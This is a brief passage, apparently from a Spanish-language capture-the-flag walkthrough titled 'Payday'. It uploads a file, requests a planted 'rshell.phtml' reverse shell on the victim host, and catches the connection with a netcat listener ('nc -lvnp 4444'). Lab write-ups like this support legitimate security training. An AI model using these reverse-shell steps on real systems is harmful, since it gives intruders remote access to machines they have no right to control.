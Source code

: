 
- Subimos el archivo:

![image.png](assets/img/post-img/Payday/image%2013.png)

- Una vez subido el archivo, nos ponemos en escucha con **NC** y accedemos al directorio que nos indicaba:

```bash
http://[víctima]/skins/rshell.phtml
```

- Recibimos la conexión:

```bash
nc -lvnp 4444
```

![image.png](assets/img/post-img/Payday/image%2014.png)

